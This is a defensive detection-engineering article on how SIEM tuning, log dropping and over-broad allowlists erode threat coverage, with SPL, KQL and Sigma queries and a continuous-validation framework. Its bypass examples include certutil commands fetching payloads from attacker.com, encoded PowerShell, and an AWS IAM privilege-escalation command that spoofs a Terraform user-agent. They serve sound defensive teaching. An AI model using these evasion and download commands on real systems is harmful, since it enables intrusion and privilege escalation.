


# The Detection Paradox: Why the Better Your SIEM Gets, the Worse Your Coverage Becomes

**Series:** SOC + GRC Advanced Cyber Defense Research  
**Topic:** SIEM Detection Engineering, Log Ingestion Degradation, Alert Suppression Mechanics, MITRE ATT&CK Coverage Decay, SOC & GRC Governance  
**Date:** 2026-09-04  
**Target Audience:** Lead Detection Engineers, SOC Architects, Threat Hunters, Incident Responders, CISO & GRC Lead Auditors  

---

> [!IMPORTANT]
> **Executive Summary:** Security Operations Centers (SOCs) routinely fall into a structural operational trap: actions taken to make a SIEM appear performant and efficient (such as suppressing noisy alerts, dropping high-volume telemetry at the ingest pipeline, enforcing strict SLA resolution targets, and boasting high percentage coverage on a static MITRE ATT&CK matrix) frequently destroy actual threat detection efficacy. 
> 
> This document defines **The Detection Paradox**, dissects the technical failure modes across modern enterprise log pipelines, establishes mathematical models for signal decay, provides production SPL/KQL/Sigma queries exposing blind spots, and presents a continuous Detection-as-Code (DaC) and Breach & Attack Simulation (BAS) governance framework to realign SOC metrics with real-world adversary resistance.

---

## Table of Contents

1. [The Anatomy of the Detection Paradox](#1-the-anatomy-of-the-detection-paradox)
   - [1.1 Defining the Paradox: Efficiency vs. Efficacy](#11-defining-the-paradox-efficiency-vs-efficacy)
   - [1.2 The SIEM Maturity Illusion Matrix](#12-the-siem-maturity-illusion-matrix)
2. [Data Pipeline & Ingestion Architecture Failure Modes](#2-data-pipeline--ingestion-architecture-failure-modes)
   - [2.1 Log Cost Optimization & Telemetry Truncation Decay](#21-log-cost-optimization--telemetry-truncation-decay)
   - [2.2 Ingestion Filtering Mechanics & Omission Blind Spots](#22-ingestion-filtering-mechanics--omission-blind-spots)
   - [2.3 Data Flow Architecture Diagram](#23-data-flow-architecture-diagram)
3. [Detection Engineering Mechanics & Attack Surface Rot](#3-detection-engineering-mechanics--attack-surface-rot)
   - [3.1 Over-Tuning & The Aggressive Suppression Trap](#31-over-tuning--the-aggressive-suppression-trap)
   - [3.2 The MITRE ATT&CK Coverage Mirage](#32-the-mitre-attck-coverage-mirage)
   - [3.3 Temporal Windowing & Low-and-Slow Correlation Evasion](#33-temporal-windowing--low-and-slow-correlation-evasion)
   - [3.4 Rule Decay (Signature & Heuristic Rot)](#34-rule-decay-signature--heuristic-rot)
4. [Real-World Query & Bypass Deep Dives (SPL, KQL, Sigma)](#4-real-world-query--bypass-deep-dives-spl-kql-sigma)
   - [Case 1: Living-off-the-Land (LOLBin) Command Line Truncation & Obfuscation](#case-1-living-off-the-land-lolbin-command-line-truncation--obfuscation)
   - [Case 2: Aggressive Allowlisting on Service Account & Service Principal Activity](#case-2-aggressive-allowlisting-on-service-account--service-principal-activity)
   - [Case 3: CloudTrail & Azure Activity Log Aggregation Drops](#case-3-cloudtrail--azure-activity-log-aggregation-drops)
5. [Mathematical & Operational Models of Detection Decay](#5-mathematical--operational-models-of-detection-decay)
   - [5.1 True Detection Yield (TDY) vs. Alert Reduction Index (ARI)](#51-true-detection-yield-tdy-vs-alert-reduction-index-ari)
   - [5.2 Dynamic Coverage Decay Formula](#52-dynamic-coverage-decay-formula)
6. [The GRC Complicity & The SLA Trap](#6-the-grc-complicity--the-sla-trap)
   - [6.1 Audit Metrics Incentivizing Operational Blindness](#61-audit-metrics-incentivizing-operational-blindness)
   - [6.2 Realigning GRC Control Auditing with Continuous BAS Telemetry](#62-realigning-grc-control-auditing-with-continuous-bas-telemetry)
7. [The Engineering Solution: Continuous Detection Verification Architecture](#7-the-engineering-solution-continuous-detection-verification-architecture)
   - [7.1 Continuous Detection-as-Code (DaC) CI/CD Pipeline](#71-continuous-detection-as-code-dac-cicd-pipeline)
   - [7.2 Breach and Attack Simulation (BAS) Telemetry Auditing Architecture](#72-breach-and-attack-simulation-bas-telemetry-auditing-architecture)
   - [7.3 SOC + GRC Remediation Matrix](#73-soc--grc-remediation-matrix)
8. [Conclusion & Operational Takeaways](#8-conclusion--operational-takeaways)

---

## 1. The Anatomy of the Detection Paradox

### 1.1 Defining the Paradox: Efficiency vs. Efficacy

The **Detection Paradox** asserts that *as a Security Operations Center optimizes its SIEM for operational cleanliness, noise reduction, and SLA compliance, its true capability to detect post-exploitation adversary activity decays.*

In an un-tuned SIEM, high volume alert noise causes **Tier 1 Analyst Fatigue**. To solve analyst burnout and hit response SLAs, engineering teams optimize the platform using four primary interventions:
1. **Aggressive Ingestion Filtering:** Dropping high-volume, low-fidelity log types at log forwarders (e.g., Sysmon Process Access Event ID 10, PowerShell ScriptBlock Event ID 4104, DNS Analytical Logs, NetFlow/VPC Flow logs).
2. **Global Allowlists & Exclusions:** Adding blanket exclusions for service accounts, management servers, CI/CD runners, and admin subnets.
3. **Strict Correlation Thresholding:** Changing single-event anomaly triggers into strict threshold rules (e.g., fire an alert only if \(\ge 10\) failed logins occur within 60 seconds).
4. **Static MITRE ATT&CK Mapping:** Counting any deployed rule mapped to a Technique ID as "100% Covered", regardless of whether the query inspects command-line arguments, parent process execution trees, or API payloads.

```
       +-------------------------------------------------------------------+
       |                    THE DETECTION PARADOX TRAP                     |
       +-------------------------------------------------------------------+
       |  Optimized SIEM Metrics         | Real-World Security Posture     |
       |  ----------------------         | ---------------------------     |
       |  [x] Alert Volume Drops (-80%)  | [!] Evasion Window Widens       |
       |  [x] MTTR Drops (<15 mins)      | [!] Blind Spots Created in Pipeline|
       |  [x] False Positive Ratio = 2%  | [!] Low-and-Slow Attack Unnoticed|
       |  [x] MITRE Matrix Filled 85%    | [!] Zero Empirical Validation   |
       +-------------------------------------------------------------------+
```

The resulting paradox is stark: **The SOC dashboard looks immaculate, audit SLA compliance hits 99.8%, yet threat actors operate with complete impunity inside the enterprise perimeter.**

### 1.2 The SIEM Maturity Illusion Matrix

Organizations frequently mistake operational convenience for detection maturity. The table below highlights how internal engineering success metrics directly correlate with security degradation:

| Operational Metric | SIEM Engineering Goal | The Hidden Reality (Detection Decay) | Adversary Exploitation Vector |
| :--- | :--- | :--- | :--- |
| **Ingestion Volume (GB/Day)** | Cap SIEM licensing costs by dropping high-volume event IDs. | Loss of forensic context (e.g., dropping process access or DLL load events). | Adversary uses Process Injection (T1055) into legitimate binaries without generating process creation events. |
| **False Positive Rate (%)** | Reduce FP rate below 5% to streamline analyst workflows. | Suppression rules strip out ambient behavioral indicators and edge-case execution. | Adversary leverages Living-off-the-Land Binaries (LOLBins) matching allowed administrative command patterns. |
| **Mean Time to Respond (MTTR)** | Resolve tickets within 15 minutes to meet SLA targets. | Analysts close alerts without context or deep hunting because telemetry was pre-filtered. | Adversary executes staging commands during benign administrative software update windows. |
| **MITRE ATT&CK Coverage** | Achieve >80% tile coverage across Enterprise ATT&CK matrix. | Paper compliance. Rules match brittle strings (e.g., `cmd.exe /c WHOAMI`) rather than underlying behaviors. | Simple obfuscation (`cmd /c w"h"o"a"m"i`) evades rule while dashboard stays green. |

---

## 2. Data Pipeline & Ingestion Architecture Failure Modes

### 2.1 Log Cost Optimization & Telemetry Truncation Decay

Modern cloud SIEM pricing model dynamics (charging per GB ingested or per ingest unit) introduce a perverse financial incentive: **drop telemetry to save money**. When budget constraints dictate SIEM configuration, detection engineering teams are forced to make architectural compromises at the log collection layer (Vector, Logstash, Fluentbit, Cribl Stream).

```
Raw Endpoint / Cloud Telemetry
    |
    v
+-----------------------------+
|  Log Collector / Streamer   |
+-----------------------------+
    |
    |---> Drop: Sysmon Event ID 10 (Process Access)     [SAVINGS: 35% Ingest] -> BLIND SPOT: Process Hollowing / Injection
    |---> Drop: Windows Event ID 5156 (WFP Connect)     [SAVINGS: 25% Ingest] -> BLIND SPOT: C2 Beaconing / Non-HTTP Traffic
    |---> Truncate: Command Line > 256 Characters        [SAVINGS: 10% Ingest] -> BLIND SPOT: Encoded PowerShell / Base64 Payloads
    |---> Filter: Drop AWS CloudTrail 'Describe/List'    [SAVINGS: 15% Ingest] -> BLIND SPOT: Cloud Reconnaissance / Discovery
    v
SIEM Data Lake (Clean, Cheaper, but Severely Blind)
```

#### Failure Mode Mechanics:
1. **Truncation of Command Lines:** Truncating `CommandLine` fields at 256 or 512 bytes drops long payload blocks, obfuscated scripts, and embedded Base64 strings.
2. **Event Exclusion Lists:** Disabling Windows Event ID 4688 command-line auditing or filtering out Sysmon Event ID 1 (Process Creation) for specific directories (e.g., `C:\Program Files\`) allows attackers to execute payloads from within trusted directory paths.
3. **PowerShell ScriptBlock (ID 4104) Stripping:** Ingesting only Event ID 4103 (Module Logging) while dropping 4104 (ScriptBlock Logging) misses dynamic code execution executed via `Invoke-Expression` (IEX) or uncompiled memory execution.

### 2.2 Ingestion Filtering Mechanics & Omission Blind Spots

Below is a breakdown of common log dropping decisions made during SIEM tuning and their exact impact on adversary detection:

| Telemetry Source | Filtered / Dropped Event | Rationalization for Dropping | Actual Security Impact |
| :--- | :--- | :--- | :--- |
| **Windows Security Log** | Event ID 4688 without Process Command Line | "Saves 40% log volume; Event ID 4688 alone tells us a process started." | Zero visibility into execution parameters, flags, or obfuscated payloads (`powershell -enc ...`). |
| **Sysmon** | Event ID 10 (ProcessAccess) | "Generates millions of events daily; exhausts SIEM storage." | Complete inability to detect LSASS memory dumping via `MiniDumpWriteDump` or injection into `lsass.exe`. |
| **Sysmon** | Event ID 7 (ImageLoaded) | "Extreme noise from DLL loads across applications." | Disables detection of DLL Side-Loading, DLL Search Order Hijacking, and reflective DLL loading. |
| **DNS Logs** | DNS Analytical / Client Queries | "High volume, high EPS; costs thousands per month." | Inability to spot DNS Data Exfiltration, Tunneling (`dnscat2`, `iodine`), or DGA (Domain Generation Algorithms). |
| **Linux Syslog / Auditd** | `SYSCALL` events for `execve` / `pty` | "Auditd consumes too much CPU and log bandwidth." | Linux privilege escalation, container escape, and reverse shell connections execute unmonitored. |

### 2.3 Data Flow Architecture Diagram

The following Mermaid diagram traces data flow from host/cloud sources through modern telemetry optimization pipelines down to the analyst dashboard, emphasizing where **Detection Blind Spots** are generated:



---

## 3. Detection Engineering Mechanics & Attack Surface Rot

### 3.1 Over-Tuning & The Aggressive Suppression Trap

When a SIEM correlation rule generates high false positive volume, engineering teams often apply blanket suppression filters rather than fixing the underlying query logic.

#### Typical Suppression Anti-Patterns:
1. **Source Subnet Allowlisting:** `AND NOT (src_ip IN ("10.10.0.0/16"))` - Assuming all activity originating from management or developer subnets is inherently benign.
2. **Service Account Exclusion:** `AND NOT (user="svc_backup" OR user="svc_deploy")` - Assuming service accounts cannot be compromised or hijacked for lateral movement.
3. **Binary Name Matching:** `AND NOT (parent_process="C:\Windows\System32\services.exe")` - Excluding systemic process spawns without inspecting binary signing signatures or hash values.

#### The Adversary Reality:
Threat actors explicitly seek out corporate subnets, service account credentials, and trusted parent processes. By suppressing alerts based on these attributes, the SOC builds custom "blind corridors" through which attackers migrate laterally without generating alerts.

### 3.2 The MITRE ATT&CK Coverage Mirage

Many SOCs measure maturity using a colored MITRE ATT&CK heatmap. If a SIEM has a rule for **T1059.001 (Command and Scripting Interpreter: PowerShell)**, the matrix cell lights up dark green. 

This creates a dangerous illusion of security:

```
[ MITRE ATT&CK Matrix View: T1059.001 ]
Status: GREEN (Covered)
Rule Logic: process_name = "powershell.exe" AND command_line = "*DownloadString*"

[ Reality: Evasion Vulnerability ]
Bypass 1: powershell.exe -e aQBlAHgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAA... (Base64 Encoded) -> MISSED
Bypass 2: System.Management.Automation.dll loaded via custom C# binary -> MISSED (Unmanaged PowerShell)
Bypass 3: pwsh.exe -Command "Invoke-RestMethod..." -> MISSED (PowerShell Core binary rename)
Bypass 4: Copy-Item powershell.exe calc.exe; calc.exe -c "..." -> MISSED (Binary rename)
```

A rule that relies on rigid string matching provides **0% behavioral detection** while reporting **100% nominal coverage** to executive leadership and GRC auditors.

### 3.3 Temporal Windowing & Low-and-Slow Correlation Evasion

Correlation rules in SIEM platforms frequently use strict time-based aggregation windows to reduce compute cost and memory strain:

$$\text{Alert Trigger Condition:} \quad \sum_{t=0}^{W} \text{Events}(t) \ge N$$

Where $W$ is the time window (e.g., $W = 300\text{ seconds}$) and $N$ is the threshold (e.g., $N = 10$).

```
Adversary Execution Timeline vs SIEM Correlation Window:

Time (Hours) ->  0:00       1:00       2:00       3:00       4:00       5:00
Events       ->  [Auth 1]   [Auth 2]   [Auth 3]   [Auth 4]   [Auth 5]   [Auth 6]
                 |----------|----------|----------|----------|----------|
SIEM Window  ->  [W = 5m]   [W = 5m]   [W = 5m]   [W = 5m]   [W = 5m]   [W = 5m]
                 (Count=1)  (Count=1)  (Count=1)  (Count=1)  (Count=1)  (Count=1)
Result       ->  NO ALERT   NO ALERT   NO ALERT   NO ALERT   NO ALERT   NO ALERT
```

#### Evasion Technique:
An adversary performing password spraying or credential validation across an enterprise active directory or cloud identity endpoint simply throttles requests below $N / W$ (e.g., 1 attempt every 45 minutes). The correlation engine flushes its sliding state buffer at every window boundary, rendering the entire attack invisible.

### 3.4 Rule Decay (Signature & Heuristic Rot)

Detection rules decay over time due to environmental entropy: infrastructure upgrades, new SaaS applications, changing administrative tools, and updated OS binaries.

```
Rule Efficacy %
 100% |========================\
  80% |                        \  Rule Decay Curve
  60% |                         \  (Without Continuous Validation)
  40% |                          \-------------------------> (Rotted Rule)
   0% +-------------------------------------------------------
      Month 0        Month 3        Month 6        Month 12
```

Without continuous Breach & Attack Simulation (BAS) or automated testing:
- Path changes break file-path-based detections (`C:\Program Files\` vs `C:\Program Files (x86)\`).
- Log format updates (e.g., AWS CloudTrail schema updates or Windows Event ID structure changes) cause query parser failures.
- Obfuscation techniques evolve beyond old regular expressions.

---

## 4. Real-World Query & Bypass Deep Dives (SPL, KQL, Sigma)

This section examines real production queries, demonstrates exact adversary bypass techniques, and provides hardened, resilient replacement rules.

### Case 1: Living-off-the-Land (LOLBin) Command Line Truncation & Obfuscation

#### The Naive Detection Query (Splunk SPL):
```spl
index=win_logs EventCode=4688 ProcessName="*\\certutil.exe" 
(CommandLine="*-urlcache*" OR CommandLine="*-split*")
| stats count by host, User, CommandLine
```

#### Why it Breaks (Adversary Bypass):
1. **Argument Obfuscation:** `certutil` accepts hyphen variations, parameter truncation, and slash flags:
   ```cmd
   certutil.exe -R -urlcache -f http://attacker.com/payload.exe payload.exe
   certutil.exe /urlcache /f http://attacker.com/payload.exe
   certutil.exe -u`r`l`c`a`c`h`e -f http://attacker.com/payload.exe
   ```
2. **Environment Variable Expansion:**
   ```cmd
   set a=-urlcache
   certutil %a% http://attacker.com/payload.exe
   ```
3. **Log Truncation:** If `CommandLine` is truncated early, the payload URL or trailing flags are dropped from the SIEM index.

#### The Hardened, Resilient Detection Query (Splunk SPL):
```spl
index=win_logs (EventCode=4688 OR EventCode=1) 
    (Image="*\\certutil.exe" OR OriginalFileName="CertUtil.exe")
| eval clean_cmd=lower(replace(CommandLine, "[\"`^]", ""))
| where match(clean_cmd, "(?i)[/-]urlcache") 
   OR match(clean_cmd, "(?i)[/-]decode") 
   OR match(clean_cmd, "(?i)[/-]ping")
| stats min(_time) as first_seen, max(_time) as last_seen, count 
    by host, User, Image, ParentImage, CommandLine
| lookup certutil_known_admin_baselines.csv host User OUTPUT is_whitelisted
| where isnull(is_whitelisted)
```

---

### Case 2: Aggressive Allowlisting on Service Account & Service Principal Activity

#### The Over-Tuned Detection Query (Microsoft Sentinel KQL):
```kql
// Naive Azure Active Directory Service Principal Anomaly Detection
AADNonInteractiveUserSignInLogs
| where TimeGenerated > ago(1d)
| where ResultType == 0
| where AppId == "00000003-0000-0000-c000-000000000000" // Microsoft Graph API
// OVER-TUNING TRAP: Suppressing all automated CI/CD and Backup Service Accounts
| where UserPrincipalName !startswith "svc_" 
| where IPAddress != "52.168.23.11" // Hardcoded build agent IP
| summarize count() by UserPrincipalName, IPAddress, Location
```

#### Why it Breaks (Adversary Bypass):
An adversary compromises a managed identity or OAuth credential for a service account named `svc_github_actions`. Because the detection excludes any account starting with `svc_`, the attacker uses Microsoft Graph API to extract enterprise emails, dump SharePoint files, and reconfigure Entra ID application registration secrets without triggering a single KQL anomaly alert.

#### The Hardened, Behavioral Detection Query (Microsoft Sentinel KQL):
```kql
let BaselineWindow = 14d;
let ExecutionWindow = 1d;
let HistoricalApps = AADNonInteractiveUserSignInLogs
| where TimeGenerated between (ago(BaselineWindow) .. ago(ExecutionWindow))
| where ResultType == 0
| summarize HistoricalIPCount = dcount(IPAddress), HistoricalAppSet = make_set(AppId) by UserPrincipalName;
AADNonInteractiveUserSignInLogs
| where TimeGenerated > ago(ExecutionWindow)
| where ResultType == 0
| join kind=inner HistoricalApps on UserPrincipalName
| where NOT(HistoricalAppSet has AppId) or IPAddress !in (HistoricalApps)
| project TimeGenerated, UserPrincipalName, AppId, AppDisplayName, IPAddress, Location, ResourceDisplayName
| extend DynamicRiskScore = case(
    UserPrincipalName startswith "svc_" and IPAddress !in (HistoricalApps), 85,
    UserPrincipalName startswith "svc_", 50,
    10
)
| where DynamicRiskScore >= 70
```

---

### Case 3: CloudTrail & Azure Activity Log Aggregation Drops

#### Naive Sigma Rule (Repository Standard):
```yaml
title: AWS IAM Policy Privilege Escalation via CreatePolicyVersion
id: d768f541-11a2-4a7b-a25e-990a42bf4561
status: production
description: Detects creation of a new default IAM policy version conferring administrative permissions.
logsource:
    product: aws
    service: cloudtrail
detection:
    selection:
        eventName: 'CreatePolicyVersion'
        requestParameters.setAsDefault: 'true'
    condition: selection
falsepositives:
    - Terraform / CloudFormation automated infrastructure deployments
level: high
```

#### Production Over-Tuning Vulnerability (SIEM Translation):
To avoid alerts on automated Terraform runs, the SOC adds an exclusion in their SIEM engine:

```sql
SELECT * FROM aws_cloudtrail 
WHERE eventName = 'CreatePolicyVersion' 
  AND requestParameters.setAsDefault = 'true'
  AND userAgent NOT LIKE 'HashiCorp-Terraform%'
```

#### Adversary Bypass Strategy:
An adversary stealing AWS temporary security credentials via Instance Metadata Service (IMDSv2) appends `HashiCorp-Terraform` to their HTTP User-Agent string during `aws cli` or custom Python SDK requests:

```bash
aws iam create-policy-version \
  --policy-arn arn:aws:iam::123456789012:policy/AdminPolicy \
  --policy-document file://admin-pwn.json \
  --set-as-default \
  --user-agent "HashiCorp-Terraform/1.5.7 (Go1.21; AWS-SDK-Go)"
```

The SIEM ingestion pipeline evaluates `userAgent NOT LIKE 'HashiCorp-Terraform%'`, drops the log event from the alert evaluation queue, and allows silent privilege escalation to AWS AdministratorAccess.

---

## 5. Mathematical & Operational Models of Detection Decay

### 5.1 True Detection Yield (TDY) vs. Alert Reduction Index (ARI)

To measure whether SIEM tuning enhances security or merely hides threats, we define two competing metrics:

#### 1. Alert Reduction Index (ARI):
Measures operational noise reduction (the metric SOC management optimizes for):

$$ARI = 1 - \left( \frac{A_{post}}{A_{pre}} \right)$$

Where $A_{pre}$ is the raw alert volume before tuning, and $A_{post}$ is the alert volume after applying suppression rules.

#### 2. True Detection Yield (TDY):
Measures actual threat identification efficiency against empirical attack attempts:

$$TDY = \frac{TP_{validated}}{TP_{validated} + FN_{silent}}$$

Where:
- $TP_{validated}$ = True Positive alerts validated by empirical testing (e.g., BAS triggers).
- $FN_{silent}$ = False Negatives (attacks executed that generated telemetry but were filtered out or failed correlation).

#### The Paradox Condition:
The Detection Paradox occurs when an organization achieves:

$$\lim_{t \to \infty} ARI(t) = 1.0 \quad \text{while} \quad TDY(t) \to 0.0$$

The SOC eliminates 100% of alert volume ($ARI = 1.0$) while failing to detect real-world adversary actions ($TDY = 0.0$).

---

### 5.2 Dynamic Coverage Decay Formula

Coverage decay can be modeled mathematically as a function of environmental change rate, log pipeline filtering loss, and rule age:

$$C_{real}(t) = \left( C_{base} \cdot e^{-\lambda t} \right) \times (1 - \phi_{pipe}) \times (1 - \sigma_{supp})$$

Where:
- $C_{base}$ = Nominal baseline coverage percentage (e.g., 80% on MITRE map).
- $\lambda$ = Environmental decay coefficient (rate of change in infrastructure, software versions, and adversary TTPs; typically $0.05 \text{ to } 0.15 \text{ per month}$).
- $t$ = Elapsed time in months since the rule set was empirically validated.
- $\phi_{pipe}$ = Pipeline telemetry loss ratio ($0.0 \le \phi_{pipe} \le 1.0$; proportion of required log fields dropped/truncated at ingestion).
- $\sigma_{supp}$ = Suppression coverage penalty ($0.0 \le \sigma_{supp} \le 1.0$; proportion of network/users covered by global exclusion lists).

#### Example Calculation:
If an organization starts with $C_{base} = 0.85$ (85% nominal coverage), performs no continuous validation for $t = 6 \text{ months}$ ($\lambda = 0.10$), drops Sysmon process access logs ($\phi_{pipe} = 0.25$), and allowlists all service accounts ($\sigma_{supp} = 0.20$):

$$C_{real}(6) = \left( 0.85 \cdot e^{-0.60} \right) \times (1 - 0.25) \times (1 - 0.20)$$

$$C_{real}(6) = (0.85 \cdot 0.5488) \times 0.75 \times 0.80 = 0.4665 \times 0.60 = \mathbf{0.280 } \quad (\mathbf{28.0\%})$$

**Result:** While the CISO dashboard proudly displays **85% MITRE Coverage**, the real-world effective detection coverage has decayed to **28.0%**.

---

## 6. The GRC Complicity & The SLA Trap

### 6.1 Audit Metrics Incentivizing Operational Blindness

Governance, Risk, and Compliance (GRC) frameworks frequently enforce metrics that inadvertently encourage SOC teams to compromise threat visibility:

```
+------------------------------------------------------------------------------------+
|                          THE GRC METRIC PERVERSION LOOP                            |
+------------------------------------------------------------------------------------+
|                                                                                    |
|   1. GRC Audit Mandate: "Achieve 99% SLA ticket resolution within 15 mins."        |
|                                                                                    |
|   2. SOC Operational Reaction: "We can't meet this SLA with noisy telemetry."      |
|                                                                                    |
|   3. Engineering Action: Turn off low-fidelity logs & aggressive correlation.      |
|                                                                                    |
|   4. Resulting State: Alert volume drops by 85%. All SLAs hit 100%.               |
|                                                                                    |
|   5. GRC Audit Finding: "PASS - Exceptional SOC Operational Compliance."           |
|                                                                                    |
|   6. Threat Actor Reality: Unrestricted lateral movement without log trails.        |
+------------------------------------------------------------------------------------+
```

#### Major Audit Failure Patterns:
1. **Measuring Response SLA over Efficacy:** GRC tracks how fast an analyst closes a ticket, not whether the ticket contained sufficient forensic telemetry to identify lateral movement.
2. **Counting Policies over Detections:** Audits verify if a SIEM is *configured* to ingest logs, but fail to inspect whether Cribl, Vector, or Logstash stream collectors are dropping 40% of payload fields upstream.
3. **Accepting Static Matrix Maps:** Compliance frameworks treat a self-reported MITRE mapping spreadsheet as definitive proof of technical coverage.

### 6.2 Realigning GRC Control Auditing with Continuous BAS Telemetry

To break the detection paradox, GRC auditors must shift from **Documentation Auditing** to **Continuous Empirical Telemetry Auditing**.

```mermaid
matrix
    title GRC Audit Evolution: Paper Compliance vs Continuous Empirical Proof
```

| Audit Domain | Traditional GRC Audit (Flawed) | Continuous Empirical GRC Audit (Resilient) |
| :--- | :--- | :--- |
| **Log Integrity** | Verify that log forwarding policies exist on paper. | Trigger automated synthetic log alerts; verify end-to-end ingest within 60 seconds. |
| **Detection Efficacy** | Review list of active SIEM correlation rule names. | Execute automated BAS atomic tests monthly; check if SIEM generated alerts. |
| **Suppression Governance** | Inspect list of authorized system administrative users. | Audit all active SIEM suppression rules against current Active Directory group memberships. |
| **SLA Evaluation** | Track Mean Time to Resolution (MTTR) on generated tickets. | Track Mean Time to Detect (MTTD) against unannounced synthetic attack simulations. |

---

## 7. The Engineering Solution: Continuous Detection Verification Architecture

### 7.1 Continuous Detection-as-Code (DaC) CI/CD Pipeline

To eliminate rule rot and over-tuning, detection logic must be managed using software engineering discipline: **Detection-as-Code (DaC)**.

```
       DETECTION-AS-CODE (DaC) CI/CD PIPELINE ARCHITECTURE

 +------------------+     +-------------------+     +--------------------+
 | Git Repository   |     | Syntax & Parser   |     | Synthetic Log      |
 | (Sigma / KQL /   | --> | Validation        | --> | Replay Engine      |
 |  SPL Rules)      |     | (yamllint / kql)  |     | (Evtx / Replay)    |
 +------------------+     +-------------------+     +--------------------+
                                                              |
                                                              v
 +------------------+     +-------------------+     +--------------------+
 | Production SIEM  |     | Automated BAS     |     | Telemetry Field    |
 | Deployment       | <-- | Validation        | <-- | Verification       |
 | (API Push)       |     | (Atomic Red Team) |     | (Field Integrity)  |
 +------------------+     +-------------------+     +--------------------+
```

#### Pipeline Workflow Stages:
1. **Version Control:** All SIEM rules, suppression lists, and baseline lookups reside in a central Git repository.
2. **Linting & Schema Validation:** Automated CI runners validate YAML structure, syntax accuracy, and field schema compatibility.
3. **Synthetic Event Replay:** Synthetic EVTX or JSON log lines are replayed against a staging SIEM instance to confirm rule triggers without false positives.
4. **Telemetry Integrity Check:** CI runner queries the SIEM API to ensure required event IDs and command line fields are currently being indexed.
5. **Production Deployment:** Rules are compiled to native query syntax (SPL, KQL, AQL) and pushed to production via REST API.

---

### 7.2 Breach and Attack Simulation (BAS) Telemetry Auditing Architecture

Continuous validation requires orchestrating unannounced, automated atomic tests across enterprise endpoints and cloud tenants:



---

### 7.3 SOC + GRC Remediation Matrix

To eliminate the Detection Paradox, engineering and compliance teams must transition from legacy anti-patterns to resilient architectural standards:

| Problem Domain | Legacy Anti-Pattern (High Risk) | Resilient Architectural Standard (Low Risk) |
| :--- | :--- | :--- |
| **Log Volume Management** | Blanket drop of high-volume Event IDs (e.g., Sysmon 10, DNS) at stream collectors. | Dynamic sampling, local host-side telemetry filtering, and streaming high-risk process accesses only. |
| **Alert Noise Reduction** | Global suppression rules based on IP subnet, user domain, or parent process name. | Context-aware dynamic risk scoring; requiring multi-stage alert correlation before suppression. |
| **MITRE Mapping** | Static spreadsheet assignment based on rule titles or superficial string matching. | Continuous empirical validation using automated BAS execution pipelines (e.g., Atomic Red Team). |
| **Command Line Telemetry** | Truncating command strings to 256 bytes to optimize SIEM storage overhead. | Full payload capture with field-level Base64 dynamic decoding and process lineage parent-child tracking. |
| **Governance & Auditing** | Audit compliance evaluated via ticket resolution MTTR and self-reported spreadsheets. | GRC verification bound to automated CI/CD test results and empirical BAS execution logs. |

---

## 8. Conclusion & Operational Takeaways

The **Detection Paradox** exposes a fundamental flaw in modern security operations: **optimizing a SIEM for administrative convenience destroys its capability to stop skilled adversaries.**

A quiet SOC dashboard is not proof of a secure enterprise; more often, it is empirical proof of a heavily compromised log pipeline and over-tuned correlation engines.

### Key Implementation Actions for SOC & GRC Teams:

1. **Audit Upstream Telemetry Collectors:** Immediately audit stream processors (Vector, Fluentbit, Logstash, Cribl) for active event drop rules. Quantify what percentage of command line payloads, Sysmon process access logs, and network analytical logs are being discarded prior to SIEM ingestion.
2. **Eliminate Blanket Suppression Rules:** Audit all SIEM suppression queries containing `NOT user IN (...)` or `NOT src_ip IN (...)`. Replace static allowlists with behavioral risk scoring and dynamic historical baselining.
3. **Transition to Detection-as-Code (DaC):** Move all SIEM correlation rules into version-controlled repositories. Enforce linting, syntax checking, and synthetic log testing prior to production deployment.
4. **Implement Continuous BAS Auditing:** Deploy automated atomic attack testing (e.g., Atomic Red Team, Caldera) to execute continuous, unannounced validation tests against endpoints and cloud environments.
